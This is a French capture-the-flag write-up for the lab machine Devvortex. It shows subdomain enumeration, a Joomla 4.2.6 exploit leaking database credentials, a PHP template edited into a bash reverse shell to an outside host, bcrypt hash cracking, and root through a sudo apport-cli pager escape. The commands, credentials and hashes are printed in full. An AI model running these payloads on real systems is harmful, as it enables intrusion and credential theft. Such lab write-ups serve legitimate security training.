


<table style="border:none; width:100%;">
  <tr>
    <!-- Colonne gauche : logo -->
    <td style="border:none; text-align:center; vertical-align:middle; width:150px;">
      
    </td>
    <td style="border:none; text-align:center; vertical-align:middle;">
      <table style="margin:auto; border-collapse:collapse; border:1px solid #ddd;">
        <thead>
          <tr>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Machine name</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">OS</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">IP</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Difficulty</th>
          </tr>
        </thead>
        <tbody>
          <tr>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Devvortex</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Linux</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">10.10.11.242</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Easy</td>
          </tr>
        </tbody>
      </table>
    </td>
  </tr>
</table>

## Enumeration

### nmap
```bash
$ nmap -sC -sV -An -T4 -p- 10.10.11.242
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
```

### Subdomain enumeration : gobuster
Il faut utiliser gobuster pour faire une enumeration des subdomains !
```bash
─$ gobuster dns -d devvortex.htb -t 50 -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     devvortex.htb
[+] Threads:    50
[+] Timeout:    1s
[+] Wordlist:   /usr/share/wordlists/dirb/common.txt
===============================================================
Starting gobuster in DNS enumeration mode
===============================================================
Found: dev.devvortex.htb

Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

## Foothold

### gosbuster dev.devortex.htb
```bash
└─$ gobuster dir -u dev.devvortex.htb -t 50 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://dev.devvortex.htb
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
...
/administrator        (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/administrator/]
/api                  (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/api/]
/cache                (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/cache/]
/components           (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/components/]
/home                 (Status: 200) [Size: 23221]
/images               (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/images/]
/includes             (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/includes/]
/index.php            (Status: 200) [Size: 23221]
/language             (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/language/]
/layouts              (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/layouts/]
/libraries            (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/libraries/]
/media                (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/media/]
/modules              (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/modules/]
/plugins              (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/plugins/]
/robots.txt           (Status: 200) [Size: 764]
/templates            (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/templates/]
/tmp                  (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/tmp/]
```

### Administrator page
Il y a une page /administrator avec un login/pass. On peut voir le nom de l'outil qui permet cette page de connexion, **Joomla!**.

On peut trouver la version de Joomla! ici : http://dev.devvortex.htb/administrator/manifests/files/joomla.xml
Version: **4.2.6**

En cherchant sur internet, on trouve rapidement une CVE sur cette version de Joomla ainsi qu'un repo github qui permet de l'exploiter
```bash
└─$ ruby exploit.rb http://dev.devvortex.htb:80
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: P4ntherg0t1n5r3c0n##
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
```
On trouve donc les credentials suivant:
user: **lewis**
mot de passe: **P4ntherg0t1n5r3c0n##**

En essayant de se connecter sur la page de login ça fonctionne! on arrive ensuite sur un Dashboard.

### Dashboard
Il se trouve que ce dashboard utilise une **template**. La page de login également. Ce sont des modèles tout prêt, du code php déjà écrit qu'il faut juste importer. Il se trouve que depuis le dashboard, on peut modifier les templates qui sont utilisées pour le dashboard et pour la page de login. Notament le code php. On va donc pouvoir modifier le code php du dashboard par exemple pour exectuer une commande bash et créer un reverse shell pour obtenir un acces sur la machine.

### Reverse shell
On modifie le code php de la page d'administration pour créer un reverse shell


```bash
<?php
exec('/bin/bash -c "exec nohup bash -i >& /dev/tcp/10.10.14.109/44446 0>&1 &"');
...
?>
-------------------------------------------------------------------------------
~ » nc -lvp 44444                                       leopold@leopold-PC-FIXE
Listening on 0.0.0.0 44444
Connection received on devvortex.htb 53842
bash: cannot set terminal process group (875): Inappropriate ioctl for device
bash: no job control in this shell
www-data@devvortex:~/dev.devvortex.htb/administrator$ whoami
whoami
www-data
```

### Stable shell
On ouvre un shell plus stable en python
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
^Z
stty raw -echo; fg
```

### lewis -> logan : user flag
Avec le compte de lewis, on a pu accéder à la base de données du site web et récupérer les credentials de l'utilisateur **logan**.
```bash
www-data@devvortex:~/dev.devvortex.htb/administrator$ mysql -u lewis -p
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| joomla             |
| performance_schema |
+--------------------+
mysql> use joomla
mysql> show tables;
+-------------------------------+
| Tables_in_joomla              |
+-------------------------------+
.................................
.................................
| sd4fg_usergroups              |
| sd4fg_users                   |
| sd4fg_viewlevels              |
.................................
71 rows in set (0.00 sec)

mysql> select * from sd4fg_users;
.....................................
lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u 
logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12
.....................................
2 rows in set (0.00 sec)
```

### hashcat - logan password (getting ssh access)
On crack le hash avec rockyou, et on obtient les credentials pour logan:
user: **logan**
password : **tequieromucho**
```bash
$ hashcat --help | grep 3200
   3200 | bcrypt $2*$, Blowfish (Unix) | Operating System
$ hashcat -m 3200 -a 0 -d 1 hash.txt /home/leopold/wordlists/rockyou.txt --show
$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho
```

### SSH to logan
```bash
$ ssh logan@localhost
Password: tequieromucho
logan@devvortex:~$ cat users.txt
FLAG................
```

## Privilege Escalation

### Enumeration
```bash
logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Sorry, try again.
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

### Exploit : apport-cli as root
```bash
logan@devvortex:~$ sudo /usr/bin/apport-cli --file-bug

*** What kind of problem do you want to report?


Choices:
  1: Display (X.org)
  2: External or internal storage devices (e. g. USB sticks)
  3: Security related problems
  4: Sound/audio related problems
  5: dist-upgrade
  6: installation
  7: installer
  8: release-upgrade
  9: ubuntu-release-upgrader
  10: Other problem
  C: Cancel
Please choose (1/2/3/4/5/6/7/8/9/10/C): 1


*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.

*** What display problem do you observe?

Choices:
  1: I don't know
  2: Freezes or hangs during boot or usage
  3: Crashes or restarts back to login screen
  4: Resolution is incorrect
  5: Shows screen corruption
  6: Performance is worse than expected
  7: Fonts are the wrong size
  8: Other display-related problem
  C: Cancel
Please choose (1/2/3/4/5/6/7/8/C): 2

*** 

To debug X freezes, please see https://wiki.ubuntu.com/X/Troubleshooting/Freeze

Press any key to continue... 

..dpkg-query: no packages found matching xorg
...........

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (1.4 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): V

!/bin/bash

root@devvortex:/home/logan# 
root@devvortex:/home/logan# cd
root@devvortex:~# cat root.txt 
8b49.....2438
```